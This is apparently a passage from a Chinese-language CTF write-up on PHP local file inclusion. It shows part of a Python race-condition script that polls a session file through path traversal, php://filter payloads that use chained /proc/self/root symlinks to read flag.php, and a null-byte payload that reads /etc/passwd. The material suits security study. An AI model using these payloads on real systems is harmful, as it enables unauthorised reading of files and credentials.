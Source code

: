```python

def READ(session):
    while True:
        resp = session.get(f'http://localhost/index.php/?file=../../../../../../../../tmp/sess_{sessid}')

        if 'flag{' in resp.text:
            print(resp.text)
            sys.exit(0)
        else:
            print('Thinking[+++++++]')

with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()

    READ(session)
```

#### 方法三（非预期） | 伪协议配合多级符号链接的办法进行绕过。

在这里有个小知识点，/proc/self指向当前进程的/proc/pid/，/proc/self/root/是指向/的符号链接，想到这里，用伪协议配合多级符号链接的办法进行绕过。

payload：

```python
?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

另外一个payload：

```python
?file=php://filter/convert.base64-encode/resource=/nice/../../proc/self/cwd/flag.php
```

# 

# 绕过

### 00字符截断

PHP版本<=5.3.4

magic_quotes_gpc = Off

```
file=../../etc/passwd%00
```

example:
